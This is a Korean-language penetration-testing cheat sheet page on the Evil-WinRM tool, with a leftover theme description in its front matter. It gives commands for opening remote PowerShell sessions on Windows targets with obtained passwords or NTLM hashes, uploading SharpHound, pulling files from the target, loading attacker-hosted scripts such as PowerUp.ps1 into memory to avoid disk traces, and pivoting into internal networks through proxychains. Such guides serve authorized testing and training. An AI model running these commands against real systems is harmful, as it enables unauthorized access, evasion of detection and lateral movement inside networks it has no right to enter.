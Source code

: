 ```yaml
---
layout: page
title: evil-winrm
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


# Evil-WinRM 원격 접속 가이드

WinRM(Windows Remote Management)은 5985(HTTP) 및 5986(HTTPS) 포트를 통해 Windows 시스템을 원격으로 관리하기 위한 표준 프로토콜입니다. `Evil-WinRM`은 이 WinRM을 위한 강력하고 편리한 클라이언트로, PowerShell 기반의 완전한 기능의 셸을 제공합니다.

---

### **1. 기본 접속 방법**

- **목표:** 획득한 자격증명을 사용하여 대상 시스템에 원격 PowerShell 세션을 설정합니다.

```bash
# -i: 타겟 IP 주소
# -u: 사용자 이름
# -p: 비밀번호
evil-winrm -i $target -u 'Administrator' -p 'Password123!'
```

```bash
# -H: NTLM 해시
evil-winrm -i $target -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d'
```

---

### **2. 핵심 기능: 파일 전송 및 스크립트 로딩**

`Evil-WinRM`의 가장 큰 장점 중 하나는 파일 전송과 스크립트 실행이 매우 간편하다는 것입니다.

#### **파일 업로드/다운로드**

세션이 연결된 상태에서 다음 명령어를 사용할 수 있습니다.

```powershell
# 공격자 머신의 파일을 타겟으로 업로드
# 형식: upload <local_path> <remote_path>
upload /root/SharpHound.ps1 C:\Users\Public\SharpHound.ps1

# 타겟의 파일을 공격자 머신으로 다운로드
# 형식: download <remote_path> <local_path>
download C:\Windows\System32\drivers\etc\hosts .
```

#### **로컬 스크립트 디렉터리 공유**

`-s` 옵션을 사용하면 공격자 머신의 특정 디렉터리를 타겟 시스템에 웹 서버 형태로 공유할 수 있어, 파일을 디스크에 직접 쓰지 않고도 스크립트를 실행할 수 있습니다.

```bash
# 공격자의 /root/scripts 폴더를 공유하며 접속
evil-winrm -i $target -u <user> -p <pass> -s /root/scripts
```

- 접속 후, `Evil-WinRM`은 자동으로 공유된 디렉터리에 접근할 수 있는 PowerShell 다운로드 명령어를 화면에 보여줍니다. 이를 복사하여 세션에 붙여넣으면, 디스크 흔적 없이 `PowerUp.ps1` 같은 스크립트를 메모리에서 바로 실행할 수 있습니다.

---

### **3. Proxychains 연동 (피버팅)**

`Evil-WinRM`은 `proxychains`와 완벽하게 호환되어, 이미 침투한 다른 시스템을 경유하여 내부망의 다른 시스템에 접속(피버팅)할 때 매우 유용합니다.

```bash
proxychains evil-winrm -i $internal_target_ip -u <user> -p <pass>
```



